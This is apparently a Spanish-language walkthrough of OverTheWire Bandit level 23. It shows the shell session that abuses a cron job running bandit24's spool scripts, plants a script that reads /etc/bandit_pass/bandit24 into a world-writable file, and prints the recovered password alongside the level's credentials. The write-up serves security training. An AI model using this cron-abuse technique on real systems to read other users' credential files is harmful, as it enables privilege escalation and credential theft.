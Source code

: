 
# Level 23

## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso

bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


## Solucion
``` bash

bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /usr/bin/cron
cronjob_bandit15_root.sh  cronjob_bandit23.sh       crontab
cronjob_bandit17_root.sh  cronjob_bandit24.sh       
cronjob_bandit22.sh       cronjob_bandit25_root.sh  
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ ^C
bandit23@bandit:~$ cd /var/spool/$myname/foo
-bash: cd: /var/spool//foo: No such file or directory
bandit23@bandit:~$ mkdir /tmp/fmb19
bandit23@bandit:~$ cd /tmp/
bandit23@bandit:/tmp$ cd fmb19
bandit23@bandit:/tmp/fmb19$ nano fmbscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/fmb19$ nano fmbscript.sh 
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/fmb19$ cat fmbscript.sh 
cat /etc/bandit_pass/bandit24 > /tmp/fmb19/password
bandit23@bandit:/tmp/fmb19$ chmod 777 fmbscript.sh 
bandit23@bandit:/tmp/fmb19$ touch password
bandit23@bandit:/tmp/fmb19$ chmod 666 password
bandit23@bandit:/tmp/fmb19$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:34 ..
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 fmbscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/fmb19$ cp fmbscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/fmb19$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 fmbscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/fmb19$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```

## Notas adicionales

| comado | descripcion |
|----------|-------------|
| ---| ---
|

## Referencias